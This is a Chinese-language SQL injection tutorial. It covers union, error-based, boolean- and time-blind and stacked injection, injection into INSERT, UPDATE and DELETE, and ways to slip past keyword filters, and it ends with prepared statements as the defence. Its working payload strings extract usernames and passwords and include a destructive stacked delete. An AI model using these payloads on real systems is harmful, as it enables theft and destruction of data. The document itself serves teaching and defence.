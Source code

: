 # SQL注入

# 简介

![SQL%E6%B3%A8%E5%85%A5%203549da5b5d9e43f49d997b3497f76487/Untitled.png](SQL%E6%B3%A8%E5%85%A5%203549da5b5d9e43f49d997b3497f76487/Untitled.png)

一个最基础的网站功能，是针对数据进行增删改查，这四个步骤，都免不了与数据库进行交互。如果信任用户传入的相关参数，就有可能导致如上图所示的场景：一个查询功能，被恶意传入单引号开头、双减号为结尾的字符串。单引号闭合了Gifts字符，而双减号注释掉了后面原本应该包含的单引号，通过UNION联合查询了users表中的username及password字段。

#本章节学习过程强烈建议本地开启mysql service进行语句尝试，理解细节。

---

# 原理

## 存储类型

#根据URI编码原则，特殊字符会被转码成特定字符，比如

# ( )[空格]→%20

# (#)[井号]→%23

# ( ')[单引号]→%27

常见数据库对于字段的存储类型有两种，数字型和字符型，在后端代码使用拼接形式处理参数时，存在不同的写法，如下：

```python
# www.test.com/news?id=1 sql语句无引号
select title,content from table1 where id =1;

# www.test.com/news?search_key=injection sql语句有引号 
select title,content from table1 where search_key='injection';
```

对于这两种存储类型，分别存在下列识别方式

```sql
# www.test.com/news?id=1+1 主要通过数字运算识别
select title,content from table1 where id =1+1;
==
select title,content from table1 where id =2;

# www.test.com/news?search_key=injection%27%23 主要通过补全单引号及#注释识别
select title,content from table1 where search_key='injection'#';
# www.test.com/news?search_key=injection%27--%20主要通过补全单引号及-- (减减空格)注释识别
select title,content from table1 where search_key='injection'-- ';
```

识别存储类型的主要目的是为了决定是否需要处理（闭合）额外的单引号

## 注入方式

识别完成存储类型后，就可以拼接正确的sql语句，注入的目的都是为了执行攻击者可以自定义的代码，以下为几种常见注入方式：（按优先级顺序排列）

#注：sql注入的参数可能存在于URI部分，也可能存在于请求body部分，原理一样，考虑篇幅，故下列所有场景均选择URI部分的参数

- 联合注入

```sql
#limit 1,1是条件限定，用于获取第一条数据后1条的数据（也就是不显示当前查询，直接显示下一条用户自定义的查询结果）

# www.test.com/news?id=1%20union%20select%20user,pwd%20from%20wp_user%20limit%201,1
select title,content from table1 where id =1 union select user,pwd from wp_user limit 1,1;

# www.test.com/news?search_key=injection%27%20union%20select%20user,pwd%20from%20wp_user%20limit%201,1%23
select title,content from table1 where search_key = 'injection' union select user,pwd from wp_user limit 1,1 #';

```

**#下列所有注入方式均如联合注入中两个例子操作，故下列注入仅列出关键部分sql，具体操作自行根据原理修改**

- 报错注入（仅限开发者开启错误调试信息，且网站无统一错误界面设置时有效，目标内容会被报错信息一同带出数据库）

```sql
#updatexml（）是一个使用不同的xml标记匹配和替换xml块的函数。作用是改变文档中符合条件的节点的值。
#语法：updatexml（XML_document，XPath_string，new_value） 第一个参数：是string格式，为XML文档对象的名称，文中为Doc 第二个参数：代表路径，Xpath格式的字符串例如//title【@lang】 第三个参数：string格式，替换查找到的符合条件的数据
#updatexml使用时，当xpath_string格式出现错误，mysql则会爆出xpath语法错误（xpath syntax）
#如下：
#select * from test where ide = 1 and (updatexml(1,0x7e,3)); 由于0x7e是~，不属于xpath语法格式，因此报出xpath语法错误。

#concat为将多个字符串连接成一个字符串的函数

id =1 or updatexml(1,concat(0x7e,(select pwd from wp_user)),1)
```

- 布尔盲注（当错误信息无法直接显示在返回包中时，可以尝试根据同一接口参数被修改前后返回包是否不同[换句话说，同一接口返回包是否正常显示内容]，判断执行结果）

```sql
#布尔盲注一般包含 and 和 or的逻辑判断
#被判断的逻辑基本为：某个字符的ascii码，某个版本的准确数字，某串字符的长度，某个表中的字段数等
#根据条件从大到小，逐步判断，合理利用二分法以及【<】【>】【=】符号，即可通过一定数量的逐步尝试，获取精准的表名、字段名、字段内容

#可用函数：
#substring(string string,num start,num length)：截取string字符串，start计数从1开始
#mid(string string,num start,num length)：截取string字符串，start计数从1开始
#substr(string string,num start,num length)：截取string字符串，start计数从1开始
#ascii()：返回指定字符的ascii码
****#count()：返回指定列的数目
#length()：返回字符串长度
#if(expr1,expr2,expr3)：判断语句 如果第一个语句正确就执行第二个语句如果错误执行第三个语句

#举几个例子
#该语句判断数据库个数，当数据库个数大于n页面显示正常
id =1 and (select count(schema_name) from information_schema.schemata)> n
#该语句判断数据库内第一个数据库名有多少字符，字符个数大于n页面显示正常
id =1 and (select length(schema_name) from information_schema.schemata limit 0,1)> n
#该语句判断第一个库第一个字符是什么，ascii值大于n页面显示正常
id =1 and (select ascii(substr((select schema_name from information_schema.schemata limit 0,1),1,1)))>n
```

- 时间盲注（当错误信息、参数修改前后返回包内容均一致时，可以考虑利用返回包时间间隔进行逻辑判断，思路与布尔盲注基本一致）

```sql
#主要利用sleep()函数，如sleep(5)，暂停五秒后再返回
#举一个例子
id =1 and if((length(database())=10),sleep(5),1)
#数据库名长度如果为10，延迟5秒
```

![SQL%E6%B3%A8%E5%85%A5%203549da5b5d9e43f49d997b3497f76487/Untitled%201.png](SQL%E6%B3%A8%E5%85%A5%203549da5b5d9e43f49d997b3497f76487/Untitled%201.png)

- 堆叠注入

```sql
#通过输入分号[;]闭合之前的语句，再进行新语句执行。如：
id =1 ;delete admin from wp_files;
#堆叠注入利用场景较为苛刻，故不做赘述
```

---

# 技巧

**在开发代码已知或可以被猜测后端代码实现的情况下，针对增删改查存在以下sql注入技巧**

- SELECT（如上）
- INSERT
    - 注入点位于tbl_name（假设表中仅存在一个字段）
        - 原语句：insert into {_GET['tablename']} values(2,2,2,2)
        - 传入参数：tablename values(2,'newadmin','newpass')
    - 注入点位于VALUES
        - 原语句：insert into table1 values(1,1,'参数')
        - 传入参数后拼接成的语句：insert into table1 values(1,1,'1'),(2,1,'aaaa')
- UPDATE
    - 常规
        - 原语句：update table1 set id=3 where user = 'zz'
        - 传入参数后拼接成的语句：update table1 set id=3, pwd='root' where user = 'zz'
- DELETE
    - 常规
        - 原语句：delete from table1 where id ='zz'
        - 传入参数后拼接成的语句：delete from table1 where id='zz 'and sleep(1)' '

**在开发代码实现了safe_func()的情况下，针对不同的场景存在不同的绕过方式**

- 字符替换
    - 只过滤空格：在代码中可以代替的空白符还有%0a、%0b、%0c、%0d、%09、%a0（均为URL编码，%a0在特定字符集才能利用）
    - 将SELECT替换成空：可以用嵌套的方式，如SESELECTLECT形式，在经过过滤后又变回了SELECT
    - 大小写匹配：在MySQL中，关键字是不区分大小写的，如果只匹配了"SELECT"，便能用大小写混写的方式轻易绕过，如"sEleCT"
    - 正则匹配：正则匹配关键字"\bselect\b"可以用形如的方式绕过

    ```sql
    正则匹配关键字"\bselect\b"可以用形如"/*！50000select*/"的方式绕过
    ```

    - 替换单引号双引号，忘记反斜杠：select xxxxx where id = 'a\' AND title =' OR sleep(1)#'（输入点为id和title，id实际等于了a\' AND title =，OR 之后的sleep(1)语句被执行）
- 逃逸引号
    - 解码编码：URI decode、base64 decode、宽字节注入等，可以自行搜索了解
    - 意料之外的输入点：文件名、http头等
    - 二次注入：用户在A处的输入，由于转义被直接存储，在B处的输出被转义回原状后，再进行利用

常见防御方式及绕过

正常的防范sql注入的方式，为在框架中开启sql预编译（参数处理与语句执行分离）即可，但是开启预编译后，部分代码还是依然存在某些不安全的写法，如：

```sql
#不安全的写法
select count(*) from user where username like '%?%'
#安全的写法
select count(*) from user where username like concat('%',?,'%')
```

# 其他

[sqlmap常见功能](SQL%E6%B3%A8%E5%85%A5%203549da5b5d9e43f49d997b3497f76487/sqlmap%E5%B8%B8%E8%A7%81%E5%8A%9F%E8%83%BD%20a70ad84c1390488c816e49ecbfaab094.md)